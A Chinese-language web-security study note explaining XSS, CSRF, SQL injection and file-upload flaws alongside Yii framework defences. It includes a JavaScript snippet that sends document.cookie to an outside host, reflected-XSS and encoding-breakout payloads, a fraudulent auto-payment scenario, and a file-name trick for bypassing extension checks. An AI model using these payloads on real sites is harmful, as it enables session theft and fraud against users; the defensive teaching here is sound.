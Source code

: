 # XSS 攻击

Cross Site Scripting 简称XSS

```js
var cookie = document.cookie;
window.location.href = 'http://codekissyoung.com?cookie='+cookie;
```

通过上面代码我可以拿到别的用户的`cookie`,我可以将这个用户的`cookie`放入我自己的浏览器，再去访问该`cookie`对应的网站，我就伪装成了该用户^_^

## httponly

服务器给发送给浏览器的`cookie`设置了`httponly`,我们就没办法通过`javascript`拿到用户`cookie`了

## 如何能让我写的javascript攻击代码在被攻击的网站／页面运行呢？

也就是如何将攻击代码注入到攻击页面中呢？

## 反射型Xss

```html
http://www.codekissyoung.com?name=<script>alert('aaaa');</script>
```

浏览器在`X-XSS-protectioiin`没开启的情况下，会运行链接里的`<script>`中的代码

```php
\YII::$app->response->headers->add('X-XSS-Protection', '0'); // 不开启浏览器X-XSS-Protection
```

构建下面链接(假设是付款页面的url),...是攻击代码

```html
http://taobao.com?user=zhangjian&js=<script>...</script>
```

将该链接发布到网上,引诱别人点击,如果真有用户在该付款页面登录了，他点了上述链接后会跳转到该url,同时执行里面的js代码(js可以自动填写表单，收款人填自己，同时自动点击付款)^_^

## 攻击的难点和精髓就在于如何让自己js能运行起来

url编码知识:`&`编码是`％26`,`escape("&")`可以得到编码值
html实体编码知识: `"`的实体编码为`&quot;`
`&quot;`生成的`"`能越狱么？
在`<script>`标签中，`&quot;`不会被html解析为`"`的
`<?=$_GET['key'];?>`接收的为 `?key=%26quot;alert(3);//`

```html
<img src="x" onerror='var a = "123<?=$_GET['key'];?>"'/>
```

### Yii 防止Xss

```php
\yii\helpers\Html::encode($script);
\yii\helpers\HtmlPurifier::process($script); // 词法解析出js代码，然后过滤它
```

为何不用正则表达式过滤js代码？
js代码可能隐藏在`<img>``<a>`中，各种属性中，并且掺杂各种编码，你很难识别全部伪装的js代码


## Csrf 跨站脚本攻击

get请求，post请求不是来自本站点

#### get型

比如有一个url`http://codekissyoung.com/article/delete?id=19`是用于删除一篇文章的，我将这个链接发布到网上，任何人点击了该链接都可以触发删除文章代码(如果未防范的话)

#### post型

伪造表单，action填写真实攻击网站的url,诱导用户填写表单，在用户已经登录该网站(有cookie)的情况下，他填写我们伪造的表单，然后提交，就中招了！

#### referer

通过referer头防csrf,但不靠谱，有些浏览器不带referer头

#### 防伪标志

服务器生成一个防伪标志_csrf给每个请求的页面，页面里面提交表单时，需要将_csrf传递过来，服务器验证该_csrf是否正确
Yii框架生成 _csrf标志

```php
$csrfToken = \Yii::$app->request->csrfToken;
$this->render('view',['csrfToken'=>$csrfToken]);
```

view中

```html
<form>
<input type='hidden' name="_csrf" value='<?=$csrfToken?>'>
</form>
```

_csrf的验证过程
服务端在返回页面时，表单带上隐藏的_csrf,cookie设置上经过加密算法加密的_csrf
再次请求服务端时，判断下 `加密(表单_csrf) == cookie的_csrf`就可以验证请求是否伪造的了

## SQL注入

```bash
$user = (new \yii\db\Query())
->select('*')
->from('users')
->where('name=:name', ['name'=>'zhangsan'])
->one();
print_r($user);
```

## 文件上传漏洞

验证上传文件类型
防止文件名上做手脚

```bash
if($_POST){
$ext = pathinfo($_FILES['photo']['name'], PATHINFO_EXTENSION);
if(in_array($ext, ['png', 'jpg', 'gif'])){

echo '类型检测成功';
move_uploaded_file($_FILES['photo']['tmp_name'], './'.$_FILES['photo']['name']);
}

//$_FILES['photo']['type']
}
```

比如 `attack.php:photo.jpg`在服务端可以绕过类型检测，但是操作系统文件名的限制，该文件会被存为`attack.php`,`:`后面都会被截断
所有建议不使用用户提交的文件名存储文件！而是使用服务器端生成的文件！
